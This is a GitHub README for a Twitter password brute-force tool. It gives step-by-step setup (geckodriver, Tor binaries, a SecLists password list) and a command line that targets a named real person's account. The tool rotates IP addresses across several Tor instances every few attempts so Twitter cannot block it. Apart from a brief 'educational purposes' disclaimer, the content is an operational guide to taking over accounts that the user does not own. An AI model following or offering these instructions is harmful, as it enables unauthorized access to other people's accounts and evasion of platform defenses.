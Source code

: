# TBA
Twitter brute force attack (for educational purposes). <br>
This attack covers attacks on multiple instances and switching IP Address after every 2-4 attemps from one instance to prevent getting IP-blocked.

# How to
1. Install Geckodriver in path (Ubuntu 18.04):
```bash
export GV=v0.26.0
wget "https://github.com/mozilla/geckodriver/releases/download/$GV/geckodriver-$GV-linux64.tar.gz"
tar xvzf geckodriver-$GV-linux64.tar.gz
chmod +x geckodriver<br />
sudo cp geckodriver /usr/local/bin/
```
2. Download Tor binaries (Version 9.5 or newer on Ubuntu 18.04):
```bash
wget https://www.torproject.org/dist/torbrowser/9.5/tor-browser-linux64-9.5_en-US.tar.xz
tar -xf tor-browser-linux64-9.5_en-US.tar.xz
```
3. Install requirements:
```bash
pip3 install -r requirements.txt
```
4. Download suitable password list from [Github](https://github.com/danielmiessler/SecLists/tree/master/Passwords)
5. Start brute forcing using command line
```bash
python3 TBA.py <username> <path_to_password_list> <path_to_tor_binaries> -<amount_of_tor_instances_optional>
python3 TBA.py realDonaldTrump path/to/wlist.txt path/to/tor-browser_en-US -instances 15
```

# Disclaimer
Do not use this if you are not sure wether you're acting on legal grounds or not.
In general it is not allowed to log into accounts you don't own.
This was made for educational purposes.
